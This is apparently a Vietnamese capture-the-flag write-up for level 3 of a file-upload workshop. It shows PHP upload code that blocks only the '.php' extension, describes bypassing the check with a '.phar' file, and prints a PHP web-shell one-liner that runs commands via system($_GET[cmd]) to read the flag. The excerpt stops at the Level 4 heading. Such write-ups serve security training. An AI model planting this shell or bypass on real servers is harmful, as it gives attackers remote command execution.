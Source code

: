 ```php
    $success = '';
    try {
        $filename = $_FILES["file"]["name"];
        $extension = end(explode(".", $filename));
        if ($extension === "php") {
            die("Hack detected");
        }
        $file = $dir . "/" . $filename;
        move_uploaded_file($_FILES["file"]["tmp_name"], $file);
        $success = 'Successfully uploaded file at: <a href="/' . $file . '">/' . $file . ' </a><br>';
        $success .= 'View all uploaded file at: <a href="/' . $dir . '/">/' . $dir . ' </a>';
    } catch (Exception $e) {
        $error = $e->getMessage();
    }
}
?>
```

![image](https://hackmd.io/_uploads/BJsKLNRZA.png)

- đoạn code thực hiện chức năng tương tự như level 2 nhưng lần này sẽ lấy giá trị cuối cùng của mảng sau khi phân tách filename chứ không lấy vị trí chỉ định như trước

### Khai thác

- mình lên payloadallthething và thử thay các extension

![image](https://hackmd.io/_uploads/Sy66qNR-0.png)

- và đến **.phar** thì file đã được chạy

![image](https://hackmd.io/_uploads/BkuocVAbR.png)

![image](https://hackmd.io/_uploads/SJ-vi40WR.png)

- tiếp theo mình đọc flag với payload

```php
<?php echo 'SECRET============' . system($_GET[cmd]). '============SECRET'; ?>
```

- và mình lấy được flag

![image](https://hackmd.io/_uploads/BJ5liNAZ0.png)

## File upload workshop Level 4

![image](https://hackmd.io/_uploads/Sk_VhVAWC.png)

### Phân tích
